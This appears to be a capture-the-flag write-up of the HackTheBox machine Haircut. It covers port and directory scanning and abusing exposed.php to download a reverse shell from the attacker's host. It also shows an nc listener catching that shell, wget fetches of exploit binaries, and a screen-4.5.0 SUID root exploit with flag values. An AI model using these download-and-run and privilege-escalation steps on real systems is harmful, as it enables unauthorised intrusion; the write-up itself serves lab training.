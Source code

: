 ```yaml
---
layout: post
title: HackTheBox Haircut (10.10.10.24) Writeup
description: >
  Hackthebox Haircut Writeup
image: /assets/img/haircut.png
noindex: false
---
```


First start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-26 16:37 UTC
Nmap scan report for 10.10.10.24
Host is up (0.060s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```
Only a couple ports to work with. Checking out port 80 I are greeted with a basic webpage with a photo.

Running a gobuster I find a couple of pages.

```
# gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20    
===============================================================                                                                               
Gobuster v3.0.1                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                               
===============================================================                                                                               
[+] Url:            http://10.10.10.24                                                                                                        
[+] Threads:        20                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                              
[+] Status codes:   200,204,301,302,307,401,403                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                            
[+] Extensions:     txt,php                                                                                                                   
[+] Timeout:        10s                                                                                                                       
===============================================================                                                                               
2019/09/26 16:46:56 Starting gobuster                                                                                                         
===============================================================                                                                               
/uploads (Status: 301)                                                                                                                        
/exposed.php (Status: 200)                                                                                                              
```
The <b>/uploads</b> directory redirects us to a 403 so I cant do much there right now. The <b>/exposed.php</b> is the one that I want. In the top left I see a button that prints out a <b>test.html</b> file from the localhost.

![button.png](../../resources/7d49512efa0f455286d0843615701924.png)

I decided to try and see if I can interact with my attacking machine. To do this I set up a <b>python SimpleHTTPServer</b> on my attacking machine so I could attempt to transfer the a reverse shell over.

```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

# http://10.10.14.21/shell.php -o uploads/shell.php
```
Now I set up my <b>nc</b> listener and then triggered the shell by navigating to <b>http://10.10.14.21/uploads/shell.php</b>. If I check the listener then I will see that a shell has opened
```
# nc -lvnp 9999                                                                                                  
listening on [any] 9999 ...                                                                                                                   
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.24] 43682                                                                                   
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux                                     
 19:45:58 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00                                                                                 
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                         
/bin/sh: 0: can't access tty; job control turned off                                                                                          
$
```
From here I can grab the user flag
```
$ cat user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
```
Now for the priv esc. If I run a LinEnum script you should see the vulnerable <b>SUID</b> binary <b>screen-4.5.0</b>.
```
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at                                                                                     
-rwsr-xr-x 1 root root 54256 May  4  2017 /usr/bin/passwd                                                                                     
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0                                                                             
-rwsr-xr-x 1 root root 40432 May  4  2017 /usr/bin/chsh                                                                                       
-rwsr-xr-x 1 root root 49584 May  4  2017 /usr/bin/chfn                                                                                       
```
A quick google search will reveal the exploit *[here](https://www.exploit-db.com/exploits/41154)*. The problem is the exploit does not work stright away because <b>gcc</b> is broken on the box so I need to compile <b>libhax.c</b> and <b>rootshell.c</b> locally and then upload them to the box.
```
# gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                        
/tmp/libhax.c: In function ‘dropshell’:

# gcc -o /tmp/rootshell /tmp/rootshell.c                                                                                        
/tmp/rootshell.c: In function ‘main’:
```
Now I need to copy <b>libhax.so</b> and <b>rootshell</b> over to the <b>/tmp</b> directory on the box. I can do this using a <b>python SimpleHTTPServer</b> again
```
$ wget 10.10.14.21:8000/rootshell                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
--2019-09-26 21:02:00--  http://10.10.14.21:8000/rootshell                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16824 (16K) [application/octet-stream]                                                                                                
Saving to: 'rootshell'                                                                                                                        

     0K .......... ......                                     100%  562K=0.03s                                                                

2019-09-26 21:02:01 (562 KB/s) - 'rootshell' saved [16824/16824]                                                                              

[+] done!                                                                                                                                     
$ wget 10.10.14.21:8000/libhax.so                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                  
--2019-09-26 21:01:48--  http://10.10.14.21:8000/libhax.so                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16136 (16K) [application/octet-stream]                                                                                                
Saving to: 'libhax.so'                                                                                                                        

     0K .......... .....                                      100%  521K=0.03s                                                                

2019-09-26 21:01:48 (521 KB/s) - 'libhax.so' saved [16136/16136]                                                                              
```
Now run the exploit from earlier
```
$ bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
gcc: error trying to exec 'cc1': execvp: No such file or directory
gcc: error trying to exec 'cc1': execvp: No such file or directory
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```
Now I can grab the root flag
```
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
```
<br><br><br><br>
